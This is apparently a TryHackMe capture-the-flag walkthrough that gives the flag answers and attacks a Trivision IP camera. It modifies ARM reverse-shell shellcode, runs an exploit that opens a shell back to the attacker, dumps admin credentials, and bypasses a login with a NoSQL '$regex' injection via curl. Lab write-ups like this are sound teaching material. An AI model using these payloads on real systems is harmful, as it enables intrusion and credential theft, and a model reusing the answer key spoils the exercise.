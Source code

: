 # https://tryhackme.com/jr/armageddon2R

+ What is the content of the first flag? `THM{YETI_ON_SCREEN_ELUSIVE_CAMERA_STAR}`
+ What is the content of the yetikey2.txt file? `2-K@bWJ5[REDACATED]ksaK`


### Reconnaise
+ Run `sudo nmap -sT -sC -sV $IP > nmap_log`
+ Download the payload to `Trivision Wireless Streaming Video IP Network Camera`

+ Modyfied payload for our ip address Little Endian 10.10.7.41 => 41.7.10.10 because 10 = `0xa0`  and it's a bad char so we need to tricky `10 = 5 + 5`.create the asm with context 'arm'
    ```assembly
    mov r1,#0x29
    lsl r1,r1,#8
    add r1,r1,#0x07
    lsl r1,r1,#8
    add r1,r1,#0x05
    add r1,r1,#0x05
    lsl r1,r1,#8
    add r1,r1,#0x05
    add r1,r1,#0x05
    push {r1}
    ```
+ So the payload became 
    ```\x29\x10\xa0\xe3\x01\x14\xa0\xe1\x07\x10\x81\xe2\x01\x14\xa0\xe1\x05\x10\x81\xe2\x05\x10\x81\xe2\x01\x14\xa0\xe1\x05\x10\x81\xe2\x05\x10\x81\xe2\x04\x10\x2d\xe5```

# Exploit 
+ run the exploit 
    ```bash
    root@ip-10-10-7-41:~# python exp.py 
    [*] Shellcode length: 860
    [+] Opening connection to 10.10.93.155 on port 50628: Done
    [+] Trying to bind to 0.0.0.0 on port 4444: Done
    [+] Waiting for connections on 0.0.0.0:4444: Got connection from 10.10.93.155 on port 55741
    [*] Switching to interactive mode

    $ cat /var/etc/umconfig.txt
    TABLE=users
    ROW=0
    name=admin
    password=Y3tiStarCur!ouspassword=admin
    group=administrators
    prot=0
    disable=0
    [More bunch...]


    $curl -s -u 'admin:Y3tiStarCur!ouspassword=admin' http://10.10.93.155:8080/login.php -X POST -d 'username=Frosteau&password[$regex]=.*' -c cookie.txt -L
    [More bunch...]
    <header>
        <div class="max-w-7xl mx-auto px-4 sm:px-6 lg:px-8 py-8 bg-thm-800">
          <h1 class="text-3xl font-bold leading-tight text-center text-gray-100 ">Welcome Frosteau!</h1>
                      <fieldset class="border border-solid border-thm-600 pt-3 pb-5 px-3 relative mt-6 bg-thm-900 w-full">
              <legend class="text-sm text-gray-100 -top-4 absolute bg-thm-900 border border-solid border-thm-600 py-1 px-3">Important Notes</legend>
              <ul class="list-disc text-gray-100">
                <li class="text-sm mt-3 font-medium ml-6">yetikey2.txt</li>
                <li class="text-sm mt-3 font-medium ml-6">2-K@bWJ5oHFCR8o%whAvK5qw8Sp$5qf!nCqGM3ksaK</li>
              </ul>
            </fieldset>
                  </div>
      </header>

    [More bunch...]
    ```



